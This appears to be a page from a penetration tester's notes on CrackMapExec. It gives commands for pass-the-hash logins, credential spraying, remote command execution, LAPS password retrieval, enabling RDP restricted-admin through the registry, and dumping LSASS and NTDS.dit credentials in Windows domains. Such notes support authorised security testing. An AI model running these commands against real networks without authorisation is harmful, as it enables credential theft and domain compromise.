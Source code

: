 ```yaml
---
title: Crackmapexec
parent: General Usage
layout: default
nav_order: 6
---
```


-x for command to be run, -u and -p both can put wordlist

Crackmapexec in Kali is outdated, but discontinued. Use at own discretion.

Simple general usage using password:\
` ./cme smb IP --kdcHost dc.fulldomain.com -u user -p pass -x ipconfig`

Simple general usage using hashes (local authentication, can remove if no need):\
` ./cme smb IP --kdcHost dc.fulldomain.com -u Administrator -H ee0c207898a5bccc01f38115019ca2fb -x ipconfig --local-auth`

To test whether a set of credential is valid to spawn shell, can use: (green <span style="color:green;">+</span> means correct, red <span style="color:red;">-</span> means wrong, orange <span style="color:orange;">Pwn3d!</span> means can spawn shell) (can replace username and password with listing you created, `--port` if custom port):\
`./cme smb targetIP -u username -p password --continue-on-success`\
(Replace protocols with rdp, ssh, mssql, winrm, smb, ldap to try more)

Get LAPS password (add the kdcFQDN to hosts file if fails):\
`./cme ldap targetIP -u user -p password --kdcHost kdcFQDN -M laps`

To run commands after seeing (Pwned!), append `-x` for normal cmd, or `-X` for powershell. Can use quotes for long commands.

Enable RDP via CME:\
`./cme smb targetIP -u user -H hash --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'`

**Admin Privilege required:**
Immediately dump LSASS password using CME (replace `-d` with `--local-auth` if local account):\
`./cme smb targetIP -u user -H hash -d domain.com -M lsassy`

Dump the NTDS.dit:\
`./cme smb targetIP -d domain.com -u user -H hash --ntds`